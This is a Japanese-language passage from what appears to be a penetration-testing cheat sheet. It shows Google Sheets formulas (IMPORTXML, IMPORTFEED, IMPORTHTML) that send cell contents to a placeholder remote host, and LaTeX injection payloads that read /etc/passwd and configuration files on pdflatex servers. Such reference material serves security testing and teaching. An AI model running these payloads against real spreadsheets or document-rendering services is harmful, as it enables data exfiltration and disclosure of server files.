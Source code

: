 ### Google Sheets OOBデータエクスフィルト

まず、いくつかの興味深い関数を紹介しましょう。

**CONCATENATE**: 文字列を連結します。
```
=CONCATENATE(A2:E2)
```
**IMPORTXML**: XML、HTML、CSV、TSV、RSS、ATOM XMLフィードなど、さまざまな構造化データタイプからデータをインポートします。
```
=IMPORTXML(CONCAT("http://[remote IP:Port]/123.txt?v=", CONCATENATE(A2:E2)), "//a/a10")
```
**IMPORTFEED**: RSSまたはATOMフィードをインポートします。
```
=IMPORTFEED(CONCAT("http://[remote IP:Port]//123.txt?v=", CONCATENATE(A2:E2)))
```
**IMPORTHTML**: HTMLページ内のテーブルやリストからデータをインポートします。
```
=IMPORTHTML (CONCAT("http://[remote IP:Port]/123.txt?v=", CONCATENATE(A2:E2)),"table",1)
```
**IMPORTRANGE**: 指定されたスプレッドシートからセルの範囲をインポートします。
```
=IMPORTRANGE("https://docs.google.com/spreadsheets/d/[Sheet_Id]", "sheet1!A2:E2")
```
**画像**: セルに画像を挿入します。
```
=IMAGE("https://[remote IP:Port]/images/srpr/logo3w.png")
```
## LaTeXインジェクション

通常、インターネット上で見つけることができるLaTeXコードをPDFに変換するサーバーは、**`pdflatex`**を使用しています。\
このプログラムは、コマンドの実行を（無効に）許可するために3つの主要な属性を使用します：

* **`--no-shell-escape`**：`\write18{command}`構文を無効にします。texmf.cnfファイルで有効になっていても無効にします。
* **`--shell-restricted`**：`--shell-escape`と同じですが、'安全な'事前定義のコマンドのセットに**制限**されます（Ubuntu 16.04では、リストは`/usr/share/texmf/web2c/texmf.cnf`にあります）。
* **`--shell-escape`**：`\write18{command}`構文を有効にします。コマンドは任意のシェルコマンドです。この構文は通常、セキュリティ上の理由から許可されていません。

ただし、コマンドを実行するための他の方法もありますので、RCEを回避するためには`--shell-restricted`を使用することが非常に重要です。

### ファイルの読み取り <a href="#read-file" id="read-file"></a>

\[や$などのラッパーを使用してインジェクションを調整する必要がある場合があります。
```bash
\input{/etc/passwd}
\include{password} # load .tex file
\lstinputlisting{/usr/share/texmf/web2c/texmf.cnf}
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```
#### 1行のファイルを読む

```html
<form action="/read-file" method="POST">
  <input type="text" name="file" value="/etc/passwd">
  <input type="submit" value="Read File">
</form>
```
